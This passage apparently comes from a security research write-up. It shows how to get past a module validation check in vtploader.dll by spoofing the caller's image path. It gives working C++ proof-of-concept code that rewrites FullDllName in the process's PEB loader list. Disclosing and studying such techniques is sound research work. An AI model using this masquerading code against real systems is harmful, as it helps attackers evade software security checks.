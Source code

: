 * Validate the module using a function *ValidateModule* exported from the library *vtploader.dll*

{% highlight c++ %}
hLibrary = ::LoadLibrary("vtploader.dll");
ValidateModule = ::GetProcAddress(v9, "ValidateModule");

ValidateModule(fileName);
{% endhighlight %}

We can spoof the path to the module from which the call originates, or we can craft the module to pass the check implemented in *vtploader!ValidateModule*. It is clear that the former is simpler and requires
only a modification of the structure in *[PEB](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb)*.

Here is the corresponding C++ code to modify the path to the main (our proof-of-concept (PoC) calls the proxy from the main module, so that's enough ) binary in *PEB::Ldr::InMemoryOrderModuleList*:

{% highlight c++ %}
void MasqueradeImagePath(PCWCHAR imagePath)
{
    PROCESS_BASIC_INFORMATION processBasicInformation;
    ULONG processInformationLength;

    auto ntStatus = ::NtQueryInformationProcess(
        ::GetCurrentProcess(),
        ProcessBasicInformation,
        &processBasicInformation,
        sizeof(processBasicInformation),
        &processInformationLength);
    if (!NT_SUCCESS(ntStatus))
        throw std::runtime_error("NtQueryInformationProcess failed. Error: " + std::to_string(ntStatus));

    UNICODE_STRING usImagePath;
    RtlInitUnicodeString(&usImagePath, imagePath);

    auto moduleBase = ::GetModuleHandle(NULL);
    if (!moduleBase)
        throw std::runtime_error("GetModuleHandle failed. Error: " + std::to_string(::GetLastError()));

    auto pPeb = processBasicInformation.PebBaseAddress;
    auto pLdr = pPeb->Ldr;
    auto pLdrHead = &pLdr->InMemoryOrderModuleList;
    auto pLdrNext = pLdrHead->Flink;

    while (pLdrNext != pLdrHead)
    {
        PLDR_DATA_TABLE_ENTRY LdrEntry = CONTAINING_RECORD(pLdrNext, LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);
        if (LdrEntry->DllBase == moduleBase)
        {
            LdrEntry->FullDllName = usImagePath;
            break;
        }

        pLdrNext = LdrEntry->InMemoryOrderLinks.Flink;
    }
}
{% endhighlight %}
